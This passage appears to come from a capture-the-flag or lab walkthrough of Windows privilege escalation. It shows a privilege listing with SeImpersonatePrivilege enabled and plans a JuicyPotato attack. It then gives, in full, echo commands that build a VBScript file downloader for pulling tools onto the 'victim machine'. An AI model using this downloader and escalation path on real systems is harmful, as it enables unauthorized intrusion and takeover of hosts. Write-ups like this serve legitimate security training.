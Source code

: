 I checked the privileges and got `SeImpersonatePrivilege` Enabled :

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
{: .nolineno}
{: .nolineno}

Lets Transfer the `JuicyPotato.exe` Tool to get Impersonate the Privileges :

I tried `certutil.exe` but it did not worked so I used `vbscript` method of `cscript` to transfer the files to victim machine like this →

Lets run this in Victim machine →

```vbnet
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
{: .nolineno}
{: .nolineno}
